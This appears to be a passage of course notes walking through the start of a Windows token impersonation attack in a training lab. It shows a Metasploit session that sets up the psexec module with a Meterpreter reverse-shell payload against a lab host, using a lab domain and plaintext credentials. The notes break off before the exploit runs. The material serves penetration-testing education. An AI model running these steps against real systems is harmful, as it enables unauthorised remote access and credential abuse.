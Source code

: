 # Token Impersonation Walkthrough

There are several tools that can do token impersonation: `mimikatz`,
`metasploit/incognito` and others as well. We will use `metasploit` here.
Learning the concept is important, the tools that we use will change over time.

After `metasploit` has started, we use `search psexec` and then pick the module
`exploit/windows/smb/psexec`. We want to use the account `fcastle:Password1` on
`THEPUNISHER` (IP 10.0.2.6), as we have done in one of the early exploits of
the Active Domain section of the course.

```
msf6 > use 24
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set rhosts 10.0.2.6
rhosts => 10.0.2.6
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     10.0.2.6         no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  MARVEL.local     no        The Windows domain to use for authentication
   SMBPass    Password1        no        The password for the specified username
   SMBUser    fcastle          no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
```